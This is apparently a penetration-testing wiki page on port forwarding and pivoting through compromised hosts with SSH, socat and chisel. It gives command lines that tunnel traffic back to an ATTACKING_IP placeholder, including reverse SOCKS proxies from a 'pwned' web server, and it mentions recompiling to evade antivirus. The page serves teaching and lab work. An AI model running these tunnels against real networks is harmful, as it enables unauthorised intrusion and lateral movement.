 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice
### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.  
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:  

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
On a compromised computer (jump-server), we can connect back to the attackbox with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: 
```bash
PC> ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT
We can use static binaries of socat to pivot, they are easy to find for both Linux and Windows. 
{% hint style="danger" %}
Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
{% endhint %} 

{% tabs %}
{% tab title="Forward" %}
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. 
```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
{% endtab %}

{% tab title="Reverse" %}
First of all, on our own attacking machine, we issue the following command:
```bash
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
```bash
PC> ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```
Now throught `localhost:8000` we can access `172.16.0.10:80`
```bash
#Example
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```
{% endtab %}
{% endtabs %}


### CHISEL
[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided).  

{% tabs %}
{% tab title="Reverse Proxy" %}
We can do a Reverse Proxy with Chisel. This connects back from a compromised server to a listener waiting on our attacking machine: 
```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```
On the compromised host, we would use the following command:
```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```
{% endtab %}
{% tab title="Forward Proxy" %}
We can do a Forward Proxy with Chisel
```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```
On the compromised host, we would use the following command:
```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```
{% endtab %}
{% tab title="ProxyChain" %}
A little reminder on how to use the proxy with ProxyChain. To use it you just have to add the following line to `/etc/proxychains.conf`:
```bash
socks5 127.0.0.1 1080
```

{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}
{% embed url="https://tryhackme.com/room/wreath"%}



